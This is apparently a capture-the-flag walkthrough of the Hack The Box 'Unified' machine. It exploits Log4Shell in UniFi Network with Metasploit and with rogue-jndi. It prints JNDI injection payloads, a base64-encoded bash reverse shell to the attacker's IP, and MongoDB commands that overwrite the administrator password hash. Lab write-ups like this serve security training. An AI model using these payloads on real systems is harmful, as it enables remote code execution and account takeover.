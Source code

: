 
### UNIFIED

![[Pasted image 20240515224224.png]]

**UniFi Network**

![[Screenshot 2024-05-15 at 10.45.56 PM.png]]

![[Pasted image 20240515224912.png]]


**ExploitDB**
Apache Log4j 2 - Remote Code Execution (RCE)
==`CVE-2021-44228`==
https://www.exploit-db.com/exploits/50592

Proof Of Concept
https://github.com/kozmer/log4j-shell-poc

![[Screenshot 2024-05-15 at 10.52.08 PM.png]]

***
***

**MSFCONSOLE**

![[Screenshot 2024-05-16 at 8.10.17 PM.png]]

![[Screenshot 2024-05-16 at 8.10.59 PM.png]]

==`set RHOST <victim>`==
==`set LHOST <attacker>`==
==`set SRVHOST <tun0 or local interface>`==

![[Pasted image 20240516202223.png]]

![[Screenshot 2024-05-16 at 8.13.16 PM.png]]

![[Screenshot 2024-05-16 at 8.14.06 PM.png]]

user.txt : 6ced1a6a89e666c0620cdb10262ba127

***
***

**WALKTHROUGH**
==`blob:https://app.hackthebox.com/49606a9c-4d79-4895-9c72-d285b1574b8b`==


We saw before that Port **8080** is up and running however being used a proxy to forward web traffic to Port **8443** where UniFi Login Portal exists

Determine request type by capturing log in request

![[Pasted image 20240517145934.png]]

Send to **Repeater**

![[Pasted image 20240517150413.png]]


https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi

![[Pasted image 20240517153027.png]]

We input the payload into the `remember` field as shown above so that we can identify an injection point if one exists. If the request causes the server to connect back to us, then we have verified that the application is vulnerable.

==`${jndi:ldap://{Tun0 IP Address}/whatever}`==

![[Pasted image 20240517153322.png]]


![[Pasted image 20240517153416.png]]

The output shows us an error message stating that the payload is invalid, but despite the error message the payload is actually being executed.


Launch **TCPDUMP** on port 389 to view the requests

==`tcpdump -i tun0:389`==

![[Pasted image 20240517154847.png]]


***


We will have to install ==`Open-JDK`== and ==`Maven`== on our system in order to build a payload that we can send to the server and will give us Remote Code Execution on the vulnerable system.


==`apt install openjdk-11-jdk -y`==
==`apt-get install maven`==

![[Pasted image 20240517160346.png]]

These applications will also help us run the `rogue-jndi` Java application, which starts a local ==LDAP server== and allows us to receive connections back from the vulnerable server and execute malicious code.


Let's clone the respective repository and build the package using Maven. 
==`git clone https://github.com/veracode-research/rogue-jndi`== 
==`cd rogue-jndi`==

![[Screenshot 2024-05-17 at 4.06.06 PM.png]]

```
### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:

java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");

It will initiate a connection from the vulnerable client to the local LDAP server.
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution.
```

==`mvn package`==

![[Pasted image 20240517160848.png]]

![[Pasted image 20240517160920.png]]

This will create a .jar file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar` . Now we can construct our payload to pass into the `RogueJndi-1-1.jar` Java application. 

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.


==`echo 'bash -c bash -i >&/dev/tcp/10.10.16.45/5555 0>&1'| base64`==
==`YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuNDUvNTU1NSAwPiYxCg==`==

![[Pasted image 20240528111603.png]]




==`java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}| {base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"`==


==`java -jar RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuNDUvNTU1NSAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.45"`==


![[Pasted image 20240528111904.png]]


We are now listening locally on port 389

Start `nc` listener on port 5555

==`nc -lvnp 5555`==

![[Pasted image 20240528112126.png]]

Go back to **Burpsuite** and send new payload to trigger connection 

==`"${jndi:ldap://10.10.16.45:1389/o=tomcat}"`==

![[Pasted image 20240528112404.png]]

![[Pasted image 20240528112437.png]]



Upgrade shell

==`script /dev/null -c bash`==

![[Pasted image 20240528112615.png]]

![[Pasted image 20240528112713.png]]



**Priv Escalation**

==`ps -aux`==

![[Pasted image 20240528112858.png]]

![[Pasted image 20240528113003.png]]

MongoDB running on port 27117

==`mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`==

![[Pasted image 20240528113441.png]]


The output reveals a user called Administrator. Their password hash is located in the x_shadow variable but in this instance it cannot be cracked with any password cracking utilities. 

Instead we can change the x_shadow password hash with our very own created hash in order to replace the administrators password and authenticate to the administrative panel. To do this we can use the mkpasswd command line utility

the `$6$` indicates a Sha-512 Hash

==`mkpasswd -m sha-512 Password1234==`

![[Pasted image 20240528113746.png]]



==`mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$JG.4yu27Ebacw.yw$/wx6DIFsbqSdoZyExe/L9vIUFT2O9OKY44ua24AmP5gX9pWaco7kgMlsAWRSSi83smRdnhiL9w9rd/vXUy2ku/"}})'`==


![[Pasted image 20240528114556.png]]


Verify

![[Pasted image 20240528114716.png]]


Log in with new password


![[Pasted image 20240528114909.png]]

Settings -> Site

![[Pasted image 20240528115043.png]]

SSH is enabled with root password in cleartext

==`NotACrackablePassword4U2022`==


![[Pasted image 20240528115215.png]]


root.txt : e50bc93c75b634e4b272d2f771c33681


![[Pasted image 20240528115303.png]]

***
***

